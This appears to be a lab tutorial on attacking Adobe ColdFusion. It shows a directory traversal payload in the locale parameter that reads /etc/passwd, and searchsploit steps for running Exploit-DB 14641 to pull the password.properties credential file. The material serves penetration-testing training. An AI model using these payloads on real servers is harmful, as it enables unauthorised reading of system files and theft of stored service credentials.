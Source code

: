 With this vulnerability, attackers can access files outside the intended directory by including `../` sequences in the file parameter. For example, consider the following URL:

Code: http

```http
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en
```

In this example, the URL attempts to access the `mappings.cfm` file in the `/CFIDE/administrator/settings/` directory of the web application with a specified `en` locale. However, a directory traversal attack can be executed by manipulating the URL's locale parameter, allowing an attacker to read arbitrary files located outside of the intended directory, such as configuration files or system files.

Code: http

```http
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```

In this example, the `../` sequences have been used to replace a valid `locale` to traverse the directory structure and access the `passwd` file located in the `/etc/` directory.

Using `searchsploit`, copy the exploit to a working directory and then execute the file to see what arguments it requires.

Attacking ColdFusion

```shell-session
AIceBear@htb[/htb]$ searchsploit -p 14641

  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
File Type: Python script, ASCII text executable

Copied EDB-ID #14641's path to the clipboard
```

**Coldfusion - Exploitation**

Attacking ColdFusion

```shell-session
AIceBear@htb[/htb]$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
AIceBear@htb[/htb]$ python2 14641.py 

usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
```

The `password.properties` file in ColdFusion is a configuration file that securely stores encrypted passwords for various services and resources the ColdFusion server uses. It contains a list of key-value pairs, where the key represents the resource name and the value is the encrypted password. These encrypted passwords are used for services like `database connections`, `mail servers`, `LDAP servers`, and other resources that require authentication. By storing encrypted passwords in this file, ColdFusion can automatically retrieve and use them to authenticate with the respective services without requiring the manual entry of passwords each time. The file is usually in the `[cf_root]/lib` directory and can be managed through the ColdFusion Administrator.
